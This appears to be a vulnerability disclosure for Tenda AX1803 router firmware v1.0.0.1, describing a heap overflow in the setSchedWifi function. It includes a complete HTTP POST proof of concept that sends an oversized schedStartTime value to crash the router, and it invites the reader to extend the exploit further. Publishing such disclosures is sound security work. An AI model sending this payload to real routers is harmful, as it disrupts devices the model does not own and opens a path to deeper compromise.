 # Tenda AX1803 v1.0.0.1 contains a heap overflow via the schedStartTime parameter or the schedEndTime parameter in the function setSchedWifi

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3421.html
- Affected firmware version：v1.0.0.1

<img src="img/0.png" style="zoom:80%;" />

## Vulnerability Description

Tenda AX1803 v1.0.0.1 contains a heap overflow via the schedStartTime parameter or the schedEndTime parameter in the function setSchedWifi.

![](img/12.png)

## POC

```
POST /goform/openSchedWifi HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=002a77b3f3cdec7e900d0be9a911fb6buigtgb
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 435

schedStartTime=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

![](img/19.png)

The router may crash after sending the poc, and you may modify this for further exploiting.